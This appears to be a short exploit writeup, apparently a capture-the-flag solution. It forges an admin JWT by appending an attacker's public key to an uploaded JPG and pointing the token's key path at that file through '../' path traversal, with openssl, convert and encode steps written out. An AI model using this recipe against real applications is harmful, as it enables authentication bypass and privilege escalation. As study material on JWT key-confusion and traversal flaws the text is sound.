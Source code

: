 + openssl genrsa -out private_key.pem 4096 && openssl rsa -in private_key.pem -pubout -out public_key.pem
+ convert -size 32x32 xc:white empty.jpg
+ cat public_key.pem >> empty.jpg (jwt checks PEM using regex but it doesn't matter if it's in the start of the file or any other place  https://github.com/jpadilla/pyjwt/blob/master/jwt/utils.py#L119)
upload empty.jpg
encode(dict(user_id=1, admin=True), '../../../../../../../../uploads/{path to empty.jpg}, Path('private_key.pem')) (He didn't use .+ resolve after absolute method so  the ../ are still present )